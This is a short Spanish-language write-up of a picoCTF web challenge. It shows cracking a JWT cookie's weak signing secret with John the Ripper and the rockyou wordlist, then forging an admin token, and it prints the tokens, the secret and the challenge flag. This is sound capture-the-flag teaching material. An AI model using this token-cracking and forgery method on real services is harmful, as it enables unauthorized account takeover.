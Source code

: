 ## Descripción 
Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210

Hint:
1. What is that cookie?
2. Have you heard of JWT?
## Solución 1

Primero vamos a logearnos en la página con admin, nos dice que no se puede y lo hacemos con cualquier otro, en cookies tenemos el jwt y lo pasamos a un decoder de jwt le cambiamos por admin el user y de todas formas sale que no tenemos acceso.

Usando la consola vamos a usar un ataque de diccionario para obtener el secret de ese jwt

```
jwt = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoib21hcnsifQ.5Bm3MkeadgsPTFN1yl8NPdkXOeMfrPORrQQgKZBZtyw

Usamos este comando para usar el ataque de diccionario en el jwt que tenemos
john hash -w-/usr/share/wordlists/rockyou.txt

ilovepico

jwt+ilovepico = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s


flag: picoCTF{jawt_was_just_what_you_thought_44c752f5}

```

## Referencias
https://en.wikipedia.org/wiki/JSON
https://en.wikipedia.org/wiki/JSON_Web_Token
https://jwt.io/

